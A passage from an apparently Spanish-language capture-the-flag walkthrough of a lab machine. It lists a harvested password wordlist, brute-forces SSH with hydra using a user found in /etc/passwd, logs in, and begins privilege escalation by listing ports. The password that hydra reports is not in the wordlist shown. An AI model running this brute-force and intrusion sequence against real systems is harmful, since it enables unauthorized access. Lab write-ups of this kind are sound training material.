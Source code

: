 ```bash
NotSoObvious99
SecretStash@12
AnonymousPass$
BlackHatKey!77
RedTeamAccess#
PrivilegedUser@
HiddenVault$$
EncryptionKing!
DecryptedEasy#
BypassMePlz!!
SuperHiddenKey@
CyberGuardian99!
```

Sabiendo que tenemos un usuario valido para el sistema:
```bash
designer:x:1001:1001::/home/designer:/bin/bash
```

Ahora todas esas contrasenas las guardamos en un archivo **passwords.txt** para aplicar fuerza bruta con hydra:
```bash
hydra -l designer -P passwords.txt -f ssh://172.17.0.2
```

Tenemos la contrasena valida para este usuario:
```bash
[22][ssh] host: 172.17.0.2   login: designer   password: SuperSecurePassword123
```
### Intrusion
Ahora iniciaremos sesion con este usuario:
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh designer@172.17.0.2 # ( SuperSecurePassword123 )
```

---
## Escalada de Privilegios
Para la escalada usaremos la documentacion del usuario: [dise0](https://dise0.gitbook.io/h4cker_b00k/ctf/ctfs/ctf-gitea-intermediate)
###### Usuario `[ designer ]`:
Listamos los puertos en escucha de la maquina victima:
```bash
ss -tuln

Netid                       State                        Recv-Q                       Send-Q                                             Local Address:Port                                             Peer Address:Port                       Process
tcp                         LISTEN                       0                            80                                                     127.0.0.1:3306                                                  0.0.0.0:*
tcp                         LISTEN                       0                            128                                                      0.0.0.0:22                                                    0.0.0.0:*
tcp                         LISTEN                       0                            511                                                      0.0.0.0:80                                                    0.0.0.0:*
tcp                         LISTEN                       0                            128                                                         [::]:22                                                       [::]:*
tcp                         LISTEN                       0                            4096                                                           *:3000                                                        *:*
```

